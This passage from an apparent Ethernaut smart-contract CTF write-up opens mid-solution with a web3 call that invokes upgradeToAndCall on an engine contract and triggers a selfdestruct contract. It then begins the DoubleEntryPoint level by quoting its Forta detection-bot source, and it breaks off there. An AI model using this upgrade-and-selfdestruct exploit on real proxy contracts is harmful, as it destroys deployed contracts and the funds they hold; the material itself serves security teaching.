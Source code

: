 > await sendTransaction({
>     from: player,
>     to: engine,
>     data: web3.eth.abi.encodeFunctionSignature("upgradeToAndCall(address,bytes)") + web3.eth.abi.encodeParameters(["address", "bytes"], ["0x47202da4b8205cf45a9919a74d0e5b36736875fd", web3.eth.abi.encodeFunctionSignature("destruct()")]).substring(2)
> });
> ```
> 
> ```solidity
> // SPDX-License-Identifier: UNLICENSED
> pragma solidity ^0.8.0;
> 
> contract engine {
>     address payable own;
>     
>     constructor() public {
>         own = payable(msg.sender);
>     }
> 
>     function destruct() external {
>         selfdestruct(own);
>     }
> }
> ```

<hr>

## 26 DoubleEntryPoint
We have to figure the bug inthe `CryptoVault` and register our own `detection bot` to `raise alerts` when the bug is been exploited.
#### Source:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/access/Ownable.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

interface DelegateERC20 {
  function delegateTransfer(address to, uint256 value, address origSender) external returns (bool);
}

interface IDetectionBot {
    function handleTransaction(address user, bytes calldata msgData) external;
}

interface IForta {
    function setDetectionBot(address detectionBotAddress) external;
    function notify(address user, bytes calldata msgData) external;
    function raiseAlert(address user) external;
}

contract Forta is IForta {
  mapping(address => IDetectionBot) public usersDetectionBots;
  mapping(address => uint256) public botRaisedAlerts;

  function setDetectionBot(address detectionBotAddress) external override {
      require(address(usersDetectionBots[msg.sender]) == address(0), "DetectionBot already set");
      usersDetectionBots[msg.sender] = IDetectionBot(detectionBotAddress);
  }

  function notify(address user, bytes calldata msgData) external override {
```